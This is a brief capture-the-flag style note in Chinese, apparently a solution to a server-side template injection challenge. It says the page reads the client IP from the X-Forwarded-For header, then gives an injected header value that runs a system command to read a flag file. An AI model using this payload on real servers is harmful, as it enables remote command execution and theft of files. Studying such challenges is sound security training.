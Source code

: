 #SSTI

页面中 API 写着 get IP 与 get XFF
x-Forward-For 存在注入

```url
X-Forwarded-For:
X-Forwarded-For: {{system('cat /flag')}}
```
